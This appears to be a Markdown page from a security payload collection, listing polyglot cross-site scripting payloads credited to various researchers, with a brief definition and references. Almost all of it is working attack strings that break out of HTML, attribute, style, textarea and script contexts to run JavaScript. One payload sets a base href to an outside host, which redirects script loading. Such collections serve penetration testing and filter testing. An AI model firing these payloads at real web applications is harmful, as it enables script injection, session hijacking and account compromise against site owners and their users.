 # Polyglot XSS

A polyglot XSS is a type of cross-site scripting (XSS) payload designed to work across multiple contexts within a web application, such as HTML, JavaScript, and attributes. It exploits the application’s inability to properly sanitize input in different parsing scenarios.

* Polyglot XSS - 0xsobky

    ```javascript
    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
    ```

* Polyglot XSS - Ashar Javed

    ```javascript
    ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
    ```

* Polyglot XSS - Mathias Karlsson

    ```javascript
    " onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    ```

* Polyglot XSS - Rsnake

    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
    ```

* Polyglot XSS - Daniel Miessler

    ```javascript
    ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
    “ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
    '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
    javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
    javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
    javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
    javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
    javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
    javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
    javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
    --></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
    /</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
    javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
    /</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
    ```

* Polyglot XSS - [@s0md3v](https://twitter.com/s0md3v/status/966175714302144514)
    ![https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg](https://pbs.twimg.com/media/DWiLk3UX4AE0jJs.jpg)

    ```javascript
    -->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
    ```

    ![https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large](https://pbs.twimg.com/media/DWfIizMVwAE2b0g.jpg:large)

    ```javascript
    <svg%0Ao%00nload=%09((pro\u006dpt))()//
    ```

* Polyglot XSS - from [@filedescriptor's Polyglot Challenge](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)

    ```javascript
    // Author: crlf
    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

    // Author: europa
    javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

    // Author: EdOverflow
    javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

    // Author: h1/ragnar
    javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
    ```

* Polyglot XSS - from [brutelogic](https://brutelogic.com.br/blog/building-xss-polyglots/)

    ```javascript
    JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
    ```

## References

* [Building XSS Polyglots - Brute - June 23, 2021](https://brutelogic.com.br/blog/building-xss-polyglots/)
* [XSS Polyglot Challenge v2 - @filedescriptor - August 20, 2015](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)
